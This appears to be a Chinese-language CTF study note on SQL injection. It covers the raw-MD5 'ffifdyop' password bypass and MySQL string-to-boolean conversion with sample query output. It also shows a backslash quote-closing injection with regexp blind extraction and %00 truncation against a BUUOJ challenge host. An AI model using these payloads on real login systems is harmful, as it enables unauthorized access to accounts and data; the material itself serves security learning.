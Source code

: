 当`md5(...)`的前五个字节恰好符合正则表达式`\‘or\'[1-9]`，且后面的11个字节没有`'`时，拼接形成的SQL语句为`select * from users where username='...' and password=''or'???????????'`。

SQL在将字符串作为布尔值进行处理时，会尝试将前几个数字字符转化为整数（如果第一个字符不是数字，则会被当作`false`，并生成一个`Truncated incorrect INTEGER value: '...'`的警告）。转化为整数后，如果其为0，则被当作`false`，并生成一个`Truncated incorrect INTEGER value: '...'`的警告，反之为`true`：

```mysql
mysql> select * from users where password=''or'1abc';
......
13 rows in set, 1 warning (0.00 sec)

mysql> select * from users where password=''or'0abc';
Empty set, 1 warning (0.00 sec)

mysql> select * from users where password=''or'000abc';
Empty set, 1 warning (0.00 sec)

mysql> select * from users where password=''or'001abc';
......
13 rows in set, 1 warning (0.00 sec)
```

经过穷举，`ffifdyop`的MD5值恰好满足以上所有条件，可以绕过登录系统的密码校验。

```php
$md5 = md5("ffifdyop",true); # 'or'6É].é!r,ùíb.
$sql = "select * from `admin` where password='$md5'";
echo $sql;
```























过滤单引号时闭合单引号：`select * from users where username='123' and passwd='123'`，让`username=\`使后面的`'`被转义，再由`passwd=...;`即可闭合单引号：

```python
URL_PREFIX = "http://703919f8-2d7e-4009-83cf-425433e65a3d.node4.buuoj.cn:81"
print(SQL_TEMPLATE.format('\\','||/**/passwd/**/regexp/**/"^a";%00'))
	# select * from users where username='\' and passwd='||/**/passwd/**/regexp/**/"^a";%00'
```





SQL`%00`会认为这为当前命令结尾，可以截断字符串。`....;%00....`，可代替注释符



Python处理特殊字符时会自动URL编码，例如：

```python
data = "%00" # ×
data = chr(0) # √
```

